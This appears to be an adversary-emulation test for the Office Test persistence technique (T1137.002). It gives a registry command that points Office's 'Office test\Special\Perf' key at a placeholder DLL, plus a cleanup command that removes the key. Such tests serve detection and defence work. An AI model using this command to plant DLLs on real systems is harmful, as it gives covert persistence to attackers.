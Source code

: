 # T1137.002 - Office Test

#### Attack Commands: Run with `command_prompt`! 

```cmd
reg add "HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d "path_to_dll"
```

#### Cleanup Commands:

```cmd
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf" /f >nul 2>&1
```
